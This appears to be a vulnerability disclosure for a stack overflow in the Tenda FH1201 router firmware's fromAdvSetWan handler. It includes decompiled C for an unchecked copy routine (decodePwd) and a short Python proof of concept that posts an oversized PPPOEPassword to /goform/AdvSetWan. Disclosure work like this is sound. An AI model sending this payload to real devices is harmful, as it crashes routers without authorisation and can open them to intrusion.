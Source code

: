 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3322.html

## Affected version

FH1201 Firmware  V1.2.0.14(408)

## Vulnerability details

The Tenda FH1201 Firmware  V1.2.0.14(408) has a stack overflow vulnerability located in the `fromAdvSetWan` function. This function accepts the `wanmode` and parameter from a POST request. Within `case 2`, this function accepts the `PPPOEPassword` parameter from a POST request, which is assigned to `decodePwd(v16, v52);`. However, since the user has control over the input of `PPPOEPassword`, the function `decodePwd()` leads to a buffer overflow. The user-supplied `PPPOEPassword` can exceed the capacity of the `v52` array, thus triggering this security vulnerability.

![image-20240731142304978](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731142304978.png)

```c
_BYTE *__fastcall decodePwd(_BYTE *a1, _BYTE *a2)
{
  _BYTE *result; // $v0
  _BYTE *v3; // [sp+8h] [+8h]
  _BYTE *v4; // [sp+Ch] [+Ch]

  v3 = a1;
  v4 = a2;
  result = a1;
  if ( a1 )
  {
    result = a2;
    if ( a2 )
    {
      while ( *v3 )
      {
        if ( *v3 == 92 )
          ++v3;
        *v4++ = *v3++;
      }
      result = v4;
      *v4 = 0;
    }
  }
  return result;
}
```

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/AdvSetWan"
payload = b"a"*1000

data = {"wanmode":"2","PPPOEPassword": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409102339559](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409102339559.png)